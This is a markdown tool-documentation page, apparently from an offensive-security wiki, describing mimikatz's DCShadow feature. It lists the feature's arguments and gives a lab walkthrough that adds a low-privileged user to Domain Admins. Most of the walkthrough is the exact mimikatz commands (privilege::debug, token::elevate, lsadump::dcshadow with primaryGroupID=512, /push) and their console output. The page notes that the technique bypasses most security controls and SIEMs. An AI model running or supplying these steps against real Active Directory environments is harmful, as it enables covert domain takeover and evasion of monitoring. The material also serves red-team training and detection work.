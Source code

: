 # dcshadow

`lsadump::dcshadow` performs a DCShadow attack.

DCShadow is a feature in [mimikatz](https://github.com/gentilkiwi/mimikatz) located in the [lsadump](https://tools.thehacker.recipes/mimikatz/modules/lsadump) module. It simulates the behavior of a Domain Controller (using protocols like RPC used only by the DCs) to inject its own data, **bypassing most of the common security controls and including many SIEMs**. It shares some similarities with the DCSync attack [`lsadump::dcsync`](dcsync.md). More information for DCShadow can be found on [dcshadow.com](https://www.dcshadow.com).

**Command Line argument(s) to run as SYSTEM:**

* `/kill`: it is used when you want to delete an object
* `/object`: The Distinguished Name (DN) of the Active Directory object to modify
* `/domain`: the domain to target. The default is the current domain
* `/dc`: the FQDN of the domain controller
* `/attribute`: The name of the [Active Directory Schema attribute](https://docs.microsoft.com/en-us/windows/win32/adschema/attributes-all) to modify
* `/value`: the object's value which is depended on the specified attribute
* `/replOriginatingUsn`: The [Update Sequence Number](https://adsecurity.org/?p=515)
* `/multiple`: an array of values (specifying multiple values)
* `/replOriginatingTime`: As the name instructs the replication originating time. More info can be found at [this](https://premglitz.wordpress.com/2013/03/20/how-the-active-directory-replication-model-works/) guide
* `/replOriginatingUid`: It specifies the UID of the domain controller which performed/requested the change. More info can be found at [this](https://premglitz.wordpress.com/2013/03/20/how-the-active-directory-replication-model-works/) guide

**Command Line Argument(s) to run in push mode as Domain or Enterprise Admin:**

* `/push`: push the changes
* `/stack`: stack the changes and then replicate them all
* `/schema`: The active directory schema partition
* `/config`: The active directory configuration partition
* `/root`: The active directory root
* `/domain`: the domain to target. The default is the current domain
* `/dc`: the FQDN of the domain controller
* `/computer`: The FQDN of the computer to register. The default is the computer on which DCShadow is executed.
* `/viewstack`: View the stack of the changes which are going to be replicated
* `/clearstack`: it clears the stack
* `/manualregister`: it registers the server manually
* `/manualunregister`: It unregisters the server manually
* `/manualpush`: it pushes the changes manually

## Escalate a domain user

In the following example the low privileged user `hacklab.local\optimus` will be added to the "Domain Admins" group:

```
C:\Users>net user optimus /domain
User name                    optimus
Full Name                    optimus prime
Comment                      DCShadow ROCKS
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/31/2021 2:39:23 PM
Password expires             Never
Password changeable          11/1/2021 2:39:23 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   11/7/2021 3:32:28 PM

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Users
The command completed successfully.
```

### Obtain debug privileges

From a command line opened as admin, obtain an `NT AUTHORITY\SYSTEM` privilege.

```
mimikatz # privilege::debug
Privilege '20' OK
```

```
mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

724     {0;000003e7} 1 D 43713          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;0027cbc0} 2 F 3960324     hacklab\m3g9tr0n        S-1-5-21-2725560159-1428537199-2260736313-1730  (12g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 28479033    NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)
```

### Modify the group id

```
mimikatz # lsadump::dcshadow /object=optimus /attribute=primaryGroupID /value=512
** Domain Info **

Domain:         DC=hacklab,DC=local
Configuration:  CN=Configuration,DC=hacklab,DC=local
Schema:         CN=Schema,CN=Configuration,DC=hacklab,DC=local
dsServiceName:  ,CN=Servers,CN=hacklab-site,CN=Sites,CN=Configuration,DC=hacklab,DC=local
domainControllerFunctionality: 7 ( WIN2016 )
highestCommittedUSN: 80938

** Server Info **

Server: DC.hacklab.local
  InstanceId  : {34cb3b05-57f5-4699-b037-5795637d46bf}
  InvocationId: {34cb3b05-57f5-4699-b037-5795637d46bf}
Fake Server (not already registered): Win10.hacklab.local

** Attributes checking **

#0: primaryGroupID

** Objects **

#0: optimus
DN:CN=optimus prime,CN=Users,DC=hacklab,DC=local
  primaryGroupID (1.2.840.113556.1.4.98-90062 rev 1):
    512
    (00020000)


** Starting server **

 > BindString[0]: ncacn_ip_tcp:Win10[53586]
 > RPC bind registered
 > RPC Server is waiting!
== Press Control+C to stop ==
  cMaxObjects : 1000
  cMaxBytes   : 0x00a00000
  ulExtendedOp: 0
  pNC->Guid: {9901d757-a63d-478f-a96a-f8be1a8308ac}
  pNC->Sid : S-1-5-21-2725560159-1428537199-2260736313
  pNC->Name: DC=hacklab,DC=local
SessionKey: c6aba9b6a2391d12b5f5b9b8c7cbf8d3cf0070202997d47aff1f96004638b815
1 object(s) pushed
 > RPC bind unregistered
 > stopping RPC server
 > RPC server stopped
```

### Push the changes

To push the changes a second CMD with Domain or Enterprise Admin privileges must be opened:

```
mimikatz # lsadump::dcshadow /push
** Domain Info **

Domain:         DC=hacklab,DC=local
Configuration:  CN=Configuration,DC=hacklab,DC=local
Schema:         CN=Schema,CN=Configuration,DC=hacklab,DC=local
dsServiceName:  ,CN=Servers,CN=hacklab-site,CN=Sites,CN=Configuration,DC=hacklab,DC=local
domainControllerFunctionality: 7 ( WIN2016 )
highestCommittedUSN: 80939

** Server Info **

Server: DC.hacklab.local
  InstanceId  : {34cb3b05-57f5-4699-b037-5795637d46bf}
  InvocationId: {34cb3b05-57f5-4699-b037-5795637d46bf}
Fake Server (not already registered): Win10.hacklab.local

** Performing Registration **

** Performing Push **

Syncing DC=hacklab,DC=local
Sync Done

** Performing Unregistration **
```

After the successful pushing the user is now part of the "Domain Admins":

```
C:\Users\Administrator\Desktop\x64>net user optimus /domain
User name                    optimus
Full Name                    optimus prime
Comment                      DCShadow ROCKS
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/31/2021 2:39:23 PM
Password expires             Never
Password changeable          11/1/2021 2:39:23 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   11/7/2021 3:32:28 PM

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Admins
The command completed successfully.
```
